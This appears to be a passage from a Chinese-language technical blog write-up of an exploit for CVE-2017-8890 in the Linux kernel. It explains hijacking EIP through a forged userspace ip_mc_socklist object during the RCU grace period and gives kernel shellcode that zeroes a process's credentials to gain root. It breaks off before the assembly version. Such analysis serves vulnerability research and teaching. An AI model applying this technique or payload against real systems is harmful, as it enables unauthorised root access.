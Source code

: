 #### （3）劫持EIP

**问题**：通过修改`ip_mc_socklist`结构中的`func`函数指针，但是实际在执行`__rcu_reclaim()`函数时，该函数指针`func`已经被修改了。原来，`kfree_rcu()`函数会修改`ip_mc_socklist`对象中的函数指针，导致堆喷失败。`kfree_rcu()`调用链 ——  [`kfree_rcu()`](https://elixir.bootlin.com/linux/v4.10.15/source/include/linux/rcupdate.h#L1114) -> [`__kfree_rcu()`](https://elixir.bootlin.com/linux/v4.10.15/source/include/linux/rcupdate.h#L1082) -> [`kfree_call_rcu()`](https://elixir.bootlin.com/linux/v4.10.15/source/kernel/rcu/tree.c#L3209) -> [`__call_rcu()`](https://elixir.bootlin.com/linux/v4.10.15/source/kernel/rcu/tree.c#L3121)。

```c
#define kfree_rcu(ptr, rcu_head)					\
	__kfree_rcu(&((ptr)->rcu_head), offsetof(typeof(*(ptr)), rcu_head)) // <---------- 

static void __call_rcu(struct rcu_head *head, rcu_callback_t func,
	   struct rcu_state *rsp, int cpu, bool lazy)
{
	unsigned long flags;
	struct rcu_data *rdp;

	/* Misaligned rcu_head! */
	WARN_ON_ONCE((unsigned long)head & (sizeof(void *) - 1));

	if (debug_rcu_head_queue(head)) {
		/* Probable double call_rcu(), so leak the callback. */
		WRITE_ONCE(head->func, rcu_leak_callback);
		WARN_ONCE(1, "__call_rcu(): Leaked duplicate callback\n");
		return;
	}
	head->func = func;				// <--------------- 被修改成了偏移量，也即前面offsetof()的返回值
	head->next = NULL;
```

**解决**：因此，不能直接通过劫持函数指针来劫持EIP。但Linux的RCU机制使得`kfree_rcu`函数调用后，并不会马上执行`__rcu_reclaim()`进行真正的释放，而是让CPU过一段时间再执行（宽限期）。可以在`__rcu_reclaim()`执行前再次修改`ip_mc_socklist`对象中的函数指针即可劫持EIP，如果`ip_mc_socklist`对象在用户空间就好了！ 由于`ip_mc_socklist`对象的前8字节是`next_rcu`指针变量，指向rcu链表的下一个`ip_mc_socklist`对象，通过`next_rcu`指针构成链表。可通过劫持`next_rcu`指针，使其指向我们在用户空间伪造的`ip_mc_socklist`对象，再通过伪造用户空间对象的函数指针来劫持EIP。布局如下所示：

![1-ip_mc_socklist layout](/images/posts/CVE-2017-8890/1-ip_mc_socklist layout.png)

把`ip_mc_socklist`对象劫持到用户空间后，我们就可以通过多线程 不断循环去修改伪造对象的func函数指针，从而劫持到EIP。

#### （4）shellcode

**问题**：可通过`commit_creds(prepare_kernel_cred(0))`提权，但前提是内核必须处于exp进程的上下文，即内核通过`current`宏获取到的进程描述符`task_struct`必须是exp进程的，否则提权失败。经调试发现，劫持EIP时内核的进程上下文是`ksoftirqd`进程或`rcu_sched`进程，猜测由于RCU机制，`ip_mc_socklist`对象的真正释放是在内核软中断处理中，因此我们劫持EIP时内核也处于软中断处理的进程上下文。所以虽然能劫持EIP，但不能通过简单执行`commit_creds()`函数执行提权，需要自己写shellcode。内核中执行如下代码即可：

```c
// find_get_pid和pid_task函数是内核导出的函数，主要用于根据pid找到对应的进程描述符。
void get_root(int pid){

      struct pid * kpid = find_get_pid(pid); 
      struct task_struct * task = pid_task(kpid,PIDTYPE_PID); 
      unsigned int * addr = (unsigned  int* )task->cred;

      addr[1] = 0;
      addr[2] = 0;
      addr[3] = 0;
      addr[4] = 0;
      addr[5] = 0;
      addr[6] = 0;
      addr[7] = 0;
      addr[8] = 0;
}
// 这段代码是在内核中执行的，可以在编写的内核模块中编译和运行，但是不好编译为用户空间代码，因此我们直接将其转换为汇编代码：
```